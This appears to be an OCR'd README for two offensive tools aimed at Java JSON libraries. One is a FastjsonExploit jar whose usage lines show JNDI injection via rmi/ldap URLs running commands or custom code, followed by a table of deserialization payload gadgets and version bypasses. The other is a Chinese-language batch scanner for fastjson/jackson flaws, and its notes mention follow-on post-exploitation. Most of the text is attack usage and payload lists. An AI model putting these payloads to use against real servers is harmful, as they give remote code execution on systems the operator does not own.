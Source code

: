 ```
Usage: java -jar Fastjson-[version]-all.jar [payload] [option] [command]
Exp01: java -jar FastjsonExploit-[version].jar JdbcRowSetImpl1 rmi://127.0.0.1:1099/Exploit "cmd:calc"
Exp02: java -jar FastjsonExploit-[version].jar JdbcRowSetImpl1 ldap://127.0.0.1:1232/Exploit "code:custom_code.java"
Exp03: java -jar FastjsonExploit-[version].jar TemplatesImpl1 "cmd:calc"
Exp04: java -jar FastjsonExploit-[version].jar TemplatesImpl1 "code:custom_code.java"

Available payload types:
    Payload                PayloadType VulVersion      Dependencies                                  
    -------                ----------- ----------      ------------                                  
    BasicDataSource1       local       1.2.2.1-1.2.2.4 tomcat-dbcp:7.x, tomcat-dbcp:9.x, commons-dbcp:1.4
    BasicDataSource2       local       1.2.2.1-1.2.2.4 tomcat-dbcp:7.x, tomcat-dbcp:9.x, commons-dbcp:1.4
    JdbcRowSetImpl1        jndi        1.2.2.1-1.2.2.4                                               
    JdbcRowSetImpl2        jndi        1.2.2.1-1.2.4.1 Fastjson 1.2.41 bypass                        
    JdbcRowSetImpl3        jndi        1.2.2.1-1.2.4.3 Fastjson 1.2.43 bypass                        
    JdbcRowSetImpl4        jndi        1.2.2.1-1.2.4.2 Fastjson 1.2.42 bypass                        
    JdbcRowSetImpl5        jndi        1.2.2.1-1.2.4.7 Fastjson 1.2.47 bypass                        
    JndiDataSourceFactory1 jndi        1.2.2.1-1.2.2.4 ibatis-core:3.0                               
    SimpleJndiBeanFactory1 jndi        1.2.2.2-1.2.2.4 spring-context:4.3.7.RELEASE                  
    TemplatesImpl1         local       1.2.2.1-1.2.2.4 xalan:2.7.2(need Feature.SupportNonPublicField)   
    TemplatesImpl2         local       1.2.2.1-1.2.2.4 xalan:2.7.2(need Feature.SupportNonPublicField)  
```

```
1. 根据现有payload，检测目标是否存在fastjson或jackson漏洞（工具仅用于检测漏洞、定位payload）
2. 若存在漏洞，可根据对应payload进行后渗透利用
3. 若出现新的漏洞时，可将最新的payload新增至txt中（需修改格式）
4. 工具无法完全替代手工检测，仅作为辅助工具使用
JsonExp.exe -h
usage: -u [目标] -l [LDAP地址]
usage: -uf [url.txt] -l [LDAP地址]
usage: -req [request.txt] -l [LDAP地址]

       [-h] [-uf URLFILE] [-u URL] [-req REQUEST] [-to TIMEOUT] [-f FILE] [-t TYPE] [-c COOKIE] [-l LDAP] [-r RMI]
       [-pro PROTOCOL] [-proxy PROXY]

功能：批量检测是否存在fastjson/jackson漏洞（未使用-f时，默认检测fastjson）

optional arguments:
  -h, --help            show this help message and exit
  -uf URLFILE, --urlfile URLFILE
                        [可选] 指定批量目标（文本路径）
  -u URL, --url URL     [可选] 指定目标
  -req REQUEST, --request REQUEST
                        [可选] 指定请求包，默认为http协议发送请求
  -to TIMEOUT, --timeout TIMEOUT
                        [非必须] 指定请求超时时长，默认为5秒
  -f FILE, --file FILE  [非必须] 指定payload（文本路径），默认为template/fastjson.txt
  -t TYPE, --type TYPE  [非必须] 指定请求类型为get或post，默认为post
```